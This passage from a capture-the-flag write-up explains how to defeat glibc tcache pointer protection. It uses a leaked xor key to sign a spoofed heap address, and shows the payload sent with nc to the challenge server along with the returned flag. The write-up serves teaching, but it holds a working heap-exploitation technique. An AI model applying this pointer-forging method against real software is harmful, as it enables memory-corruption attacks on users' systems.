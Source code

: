 Pointers are protected by taking the *address* of `next` of the chunk that is about to be added to the free list, shifting that address by 12 bits to the right (that is roughly the page offset part) and xoring this mask with the current head pointer. Due to ASLR there the key is randomized and cannot be known without a explicit leak.

Now the `secret key` comes into play. Lets recap how the leak is generated:

```c
__ptr = (undefined8 *)malloc(8);
free(__ptr);
printf("Your super secret xor key is %p\n",*__ptr);
```

At this point the `tcache` is empty, therefore, when `__ptr` is deleted `PROTECT_PTR` is called with `NULL` as `ptr` argument leaving us with a key we can use for `signing` our spoofed address. This should at least work as long as chunks are coming from the same memory page, or we can make sure we access the same chunk that leaked us the address. As a side note, ASLR was disabled for this challenge, but this doesn't matter, the solution works with and without ASLR.

To `sign` our address we only have to xor the address with the leaked key. When `tcache_get` tries xor with the same key the address is again intact. Lets try again:

```python
>>> p64(0x5555555581b0^0x555555559).hex()
'e9d4000050550000'
```

```bash
$ python gen.py A8A8D1D0F0e9d4000050550000A8A8F3666c6167 | nc 139.144.30.173 9999
Overwrite the value at 0x5555555581b0 so it's 'flag'
Your super secret xor key is 0x555555559
Enter your program:
chctf{UR_b3st_and_w1sest_REfuge_fR0m_All_TRoubl3s_is_in_ur_science}
```

And win.. we got the flag.

Flag `chctf{UR_b3st_and_w1sest_REfuge_fR0m_All_TRoubl3s_is_in_ur_science}`